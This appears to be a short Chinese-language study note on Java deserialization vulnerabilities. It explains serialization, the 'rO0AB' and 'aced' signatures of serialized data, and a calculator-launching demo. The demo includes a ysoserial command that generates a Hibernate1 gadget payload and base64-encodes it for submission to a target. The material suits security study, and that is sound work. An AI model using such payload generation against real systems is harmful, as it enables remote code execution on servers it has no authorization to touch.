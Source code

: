 ![image-20210825164252060](D:\BaiduNetdiskDownload\安全\WEB漏洞概述\反序列化漏洞\JAVA反序列化.assets\image-20210825164252060.png)

![image-20210825164505982](D:\BaiduNetdiskDownload\安全\WEB漏洞概述\反序列化漏洞\JAVA反序列化.assets\image-20210825164505982.png)

## 序列化和反序列化

```
序列化(Serialization): 将对象的状态信息转换为可以存储或传输的形式的过程。在序列化期间，对象将其当前状态写入到临时或持久性存储区。

反序列化:从存储区中读取该数据，并将其还原为对象的过程，称为反序列化。
```

下方的特征可以作为序列化的标志参考:

```
一段数据以rO0AB开头， 你基本可以确定这串就是JAVA序列化base64加密的数据。
或者如果以aced开头，那么他就是这一段java序列化的16进制。
```

## 案例：打开计算器

ysoserial工具生成payload

```
java -Dhibernate5 -cp hibernate-core-5.4.9.Final.jar;ysoserial-master-30099844c6-1. jar ysoserial.GeneratePayload Hibernate1 calc.exe >payload. bin
```

编码成base64

```
cat payload. bin | base64

echo "maibi" | base64			//base64加密
echo "bWFpYmkK" | base64 -d		//base64解密
```

提交base加密后的字符串

![image-20210827112713884](D:\BaiduNetdiskDownload\安全\WEB漏洞概述\反序列化漏洞\JAVA反序列化.assets\image-20210827112713884.png)

